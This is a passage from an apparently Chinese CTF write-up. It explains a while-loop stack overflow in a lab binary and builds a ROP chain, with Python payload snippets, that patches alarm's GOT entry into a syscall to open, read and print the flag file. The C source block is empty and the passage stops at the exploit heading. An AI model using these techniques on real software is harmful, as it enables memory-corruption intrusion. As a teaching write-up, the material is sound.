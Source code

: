 ```c
```

看起来是一个简单的程序，可以溢出任意字节长度。但是溢出点在while循环中，这样就有一个问题，如何跳出循环？

pwntools有一个shutdown可以用来关闭流，但是在关闭流之后，程序就停止了运行，就像你在终端使用了`ctrl`+`D`。一次性要完成所有操作，那么暴露地址的方式肯定不能完成，幸运的是，我们可以使用系统调用(syscall)。对于有些系统,system 也可以用系统调用,而对于有些系统则不行，因此，我们这里不再 geshell，我们直接读取 flag，然后打印出来。

思路：open打开文件，用read读取flag，使用printf打印出来。

**open("flag","r")**

通过修改got表的方式调用open，

```assembly
.text:000000000040070D                 align 2
.text:000000000040070E                 dw 0C307h
```

**这里有一个这样的指令，将它undefine，然后code**，就变成了这样

```assembly
.text:000000000040070D                 add     [rdi], al
.text:000000000040070F                 retn
```

很神奇，大师傅只说是经验，具体的原理也不太清楚~~记下来就好。。。

add命令将rdi地址对应的值加上al所保存的值。那么，如果 rdi 里存储着 alarm 的 GOT 表地址， 那么 add [rdi],al 就是把 GOT 表里指向的地址向后偏移 al，由于 alarm 函数向后偏移 0x5 个字 节处调用了 syscall，因此，如果我们的 al 为 0x5，那么，add 指令执行后，我们的 alarm 函 数 GOT 表里的地址就指向了 syscall 的调用处，那么我们调用 alarm 也就是调用 syscall，我 们只需在之前传入 eax（系统调用号），就可以调用我们需要的系统调用。

flag字符串可以在程序种找到，r对应的字符标识符为0

（这个题似乎应该给一下libc的，但是并没有。。）

```python
#hack got
payload='a'*0x38+p64(pop_rdi)+p64(alarm_got)+p64(pop_rax)+p64(5)+p64(add_rdi)
#open flag r
payload+=p64(pop_rdi)+p64(flag)+p64(pop_rsi)+p64(0)+p64(0)+p64(pop_rax)+p64(2)+p64(alarm_plt)
```

**read(flag, bss,  100)**

打开之后将flag读到程序的bss段，调用read函数。打开的第一个文件标识符为3。

```python
#read(3,bss,100)
payload+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(bss)+p64(0)+p64(pop_rdx)+p64(100)+p64(read_plt)
```

**printf(flag)**

不用控制所有的参数，直接传入flag地址就行。

```python
#printf(flag)
payload+=p64(pop_rdi)+p64(bss)+p64(printf_plt)
```

## exp
